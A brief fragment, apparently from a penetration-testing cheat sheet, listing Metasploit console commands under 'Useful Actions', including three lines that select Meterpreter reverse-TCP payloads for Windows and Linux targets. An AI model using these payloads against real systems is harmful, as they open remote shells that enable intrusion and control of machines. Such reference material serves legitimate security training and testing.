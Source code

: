 #### Useful Actions
```
options
show payloads

set payload windows/meterpreter/reverse_tcp
set payload linux/meterpreter/reverse_tcp
set payload windows/x64/meterpreter/reverse_tcp
```
